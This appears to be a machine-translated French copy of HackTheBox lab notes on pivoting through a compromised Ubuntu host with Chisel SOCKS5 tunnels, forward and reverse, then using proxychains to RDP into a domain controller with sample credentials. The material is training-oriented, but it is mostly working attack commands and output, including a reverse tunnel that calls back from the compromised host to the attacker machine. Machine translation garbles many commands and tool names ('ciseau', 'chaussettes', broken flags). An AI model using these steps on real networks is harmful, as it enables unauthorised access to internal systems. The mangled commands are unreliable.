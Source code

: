 Socks5 tunnels avec chisel
===========================

* * * * *

[Chisel] (https://github.com/jpillora/chisel) est un outil de tunneling basé sur TCP / UDP écrit dans [Go] (https://go.dev/) qui utilise HTTP pour transporter des données sécurisées en utilisant SSH. «Chisel» peut créer une connexion du tunnel client-serveur dans un environnement restreint du pare-feu. Considérons un scénario où nous devons tuer notre trafic vers un serveur Web sur le réseau `172.16.5.0` /` 23` (réseau interne). Nous avons le contrôleur de domaine avec l'adresse `172.16.5.19`. Ce n'est pas directement accessible à notre hôte d'attaque car notre hôte d'attaque et le contrôleur de domaine appartiennent à différents segments de réseau. Cependant, puisque nous avons compromis le serveur Ubuntu, nous pouvons démarrer un serveur Chisel dessus qui écoutera sur un port spécifique et transférer notre trafic vers le réseau interne via le tunnel établi.

Configuration et utilisation du ciseau
-------------------------

Avant de pouvoir utiliser Chisel, nous devons l'avoir sur notre hôte d'attaque. Si nous n'avons pas de ciselier sur notre hôte d'attaque, nous pouvons cloner le repo du projet en utilisant la commande directement ci-dessous:

#### Cloning Chisel

Ciseau de clonage

`` '
dsgsec @ htb [/ htb] $ git clone https://github.com/jpillora/chisel.git

`` '

Nous aurons besoin du langage de programmation «GO» installé sur notre système pour construire le ciseau binaire. Avec GO installé sur le système, nous pouvons nous déplacer dans ce répertoire et utiliser «Go Build» pour construire le ciseau binaire.

#### Construire le burin binaire

Construire le ciseau binaire

`` '
DSGSEC @ HTB [/ HTB] $ CD CHISEL
se construire

`` '

Il peut être utile d'être conscient de la taille des fichiers que nous transférons sur des cibles sur les réseaux de notre client, non seulement pour des raisons de performances, mais aussi en considérant la détection. Deux ressources bénéfiques pour compléter ce concept particulier sont le billet de blog de l'OXDF "[tunneling avec Chisel et SSF] (https://0xdf.gitlab.io/2020/08/10/tunnel-with-chisel-and-ssf-pdate.html ) "Et la procédure pas à pas de la boîte d'Ippsec« rougeâtre ». IppSec commence son explication de Chisel, construisant le binaire et rétrécissant la taille du binaire à la marque 24:29 de sa [vidéo] (https://www.youtube.com/watch?v=yp4Oxoqibam&t=1469s).

Une fois le binaire construit, nous pouvons utiliser «SCP» pour le transférer à l'hôte pivot cible.

#### Transfert de bulleau binaire à Host Pivot

Transfert de ciselier binaire à Host Pivot

`` '
dsgsec @ htb [/ htb] $ SCP Chisel ubuntu@10.129.202.64: ~ /

ubuntu@10.129.202.64's mot de passe:
ciseau 100% 11 Mo 1,2 Mo / s 00:09

`` '

Ensuite, nous pouvons démarrer le serveur / écouteur Chisel.

#### exécuter le serveur Chisel sur l'hôte pivot

Exécution du serveur Chisel sur l'hôte Pivot

`` '
ubuntu @ web01: ~ $ ./CHISEL Server -v -p 1234 - Socks5

2022/05/05 18:16:25 Serveur: empreinte digitale Viry7wryvjiopvedzsi2piuivtu9qehww9tza3zspac =
2022/05/05 18:16:25 Serveur: Écoute sur http://0.0.0.0:1234

`` '

L'auditeur Chisel écoutera les connexions entrantes sur le port `1234` à l'aide de socks5 (` --socks5`) et le transfèrent à tous les réseaux accessibles à partir de l'hôte pivot. Dans notre cas, l'hôte Pivot a une interface sur le réseau 172.16.5.0/23, qui nous permettra d'atteindre les hôtes sur ce réseau.

Nous pouvons démarrer un client sur notre hôte d'attaque et nous connecter au serveur Chisel.

#### Connexion au serveur Chisel

Connexion au serveur Chisel

```
dsgsec @ htb [/ htb] $ ./CHISEL Client -v 10.129.202.64:1234 Chaussettes

2022/05/05 14:21:18 Client: Connexion à WS: //10.129.202.64: 1234
2022/05/05 14:21:18 Client: Tun: Proxy # 127.0.0.1: 1080 => Chaussettes: Écoute
2022/05/05 14:21:18 Client: TUN: Proxies liés
2022/05/05 14:21:19 Client: Treat à main ...
2022/05/05 14:21:19 Client: Envoi de configuration
2022/05/05 14:21:19 Client: connecté (latence 120.170822ms)
2022/05/05 14:21:19 Client: Tun: SSH Connected

```

Comme vous pouvez le voir dans la sortie ci-dessus, le client Chisel a créé un tunnel TCP / UDP via HTTP sécurisé à l'aide de SSH entre le serveur Chisel et le client et a commencé à écouter sur le port 1080. Nous pouvons désormais modifier notre fichier proxychains.conf situé sur `/ etc / proxychains.conf` et ajouter le port` 1080` à la fin afin que nous puissions utiliser ProxyChains pour pivoter en utilisant le tunnel créé entre le port 1080 et le tunnel SSH.

#### Édition et confirmation proxychains.conf

Nous pouvons utiliser n'importe quel éditeur de texte que nous aimerions modifier le fichier proxychains.conf, puis confirmer nos modifications de configuration à l'aide de «Tail».

Édition et confirmation proxychains.conf

```
dsgsec @ htb [/ htb] $ tail -f /etc/proxychains.conf

#
# Types de proxy: HTTP, SOCKS4, SOCKS5
# (types d'authers pris en charge: "basique" -http "utilisateur / pass" -socks)
#
[Proxylist]
# Ajouter un proxy ici ...
# Meanwile
# par défaut défini sur "tor"
# chaussettes4 127.0.0.1 9050
chaussettes5 127.0.0.1 1080

```

Maintenant, si nous utilisons ProxyChains avec RDP, nous pouvons nous connecter au DC sur le réseau interne via le tunnel que nous avons créé pour l'hôte Pivot.

#### pivotant au DC

Pivotant au DC

```
dsgsec @ htb [/ htb] $ proxychains xfreerdp /v:172.16.5.19 / u: Victor / p: pass @ 123

```

* * * * *

Pivot inversé ciselier
--------------------

Dans l'exemple précédent, nous SED LA MACHINE COMPROMISÉ (UBUNTU) comme serveur Chisel, inscrivant sur le port 1234. Pourtant, il peut y avoir des scénarios où les règles de pare-feu restreignent les connexions entrantes à notre cible compromise. Dans de tels cas, nous pouvons utiliser le burin avec l'option inverse.

Lorsque le serveur Chisel a activé `` --reverse ', les télécommandes peuvent être préfixées avec `r` pour indiquer inversé. Le serveur écoutera et acceptera les connexions, et ils seront proxés via le client, qui a spécifié la télécommande. Remotes inverses spécifiant `R: Socks` écoutera le port de Socks par défaut du serveur (1080) et terminera la connexion au proxy SOCKS5 interne du client.

Nous démarrerons le serveur dans notre hôte d'attaque avec l'option `--reverse`.

#### Démarrage du serveur Chisel sur notre hôte d'attaque

Démarrage du serveur Chisel sur notre hôte d'attaque

```
dsgsec @ htb [/ htb] $ sudo ./CHISEL Server --reverse -v -p 1234 - Socks5

2022/05/30 10:19:16 Serveur: tunneling inversé activé
2022/05/30 10:19:16 Serveur: empreinte digitale N6ufn6zv4f + MLB8WV3X25557W / GHQMRGGENN15Q9XIK =
2022/05/30 10:19:16 Serveur: Écoute sur http://0.0.0.0:1234

```

Ensuite, nous nous connectons à partir de l'Ubuntu (hôte pivot) à notre hôte d'attaque, en utilisant l'option `r: socks`

Démarrage du serveur Chisel sur notre hôte d'attaque

```
Ubuntu @ web01 $ ./CHISEL Client -v 10.10.14.17:1234 R: chaussettes

2022/05/30 14:19:29 Client: Connexion à ws: //10.10.14.17: 1234
2022/05/30 14:19:29 Client: Treat à main ...
2022/05/30 14:19:30 Client: Envoi de configuration
2022/05/30 14:19:30 Client: Connecté (latence 117.204196ms)
2022/05/30 14:19:30 Client: Tun: SSH Connected

```

Nous pouvons utiliser n'importe quel éditeur que nous aimerions modifier le fichier proxychains.conf, puis confirmer nos modifications de configuration à l'aide de «Tail».

#### Édition et confirmation proxychains.conf

Édition et confirmation proxychains.conf

```
dsgsec @ htb [/ htb] $ tail -f /etc/proxychains.conf

[Proxylist]
# Ajouter un proxy ici ...
# chaussettes4 127.0.0.1 9050
chaussettes5 127.0.0.1 1080

```

Si nous utilisons des proxychaines avec RDP, nous pouvons nous connecter au DC sur le réseau interne via le tunnel que nous avons créé pour l'hôte pivot.

Édition et confirmation proxychains.conf

```
dsgsec @ htb [/ htb] $ proxychains xfreerdp /v:172.16.5.19 / u: Victor / p: pass @ 123

```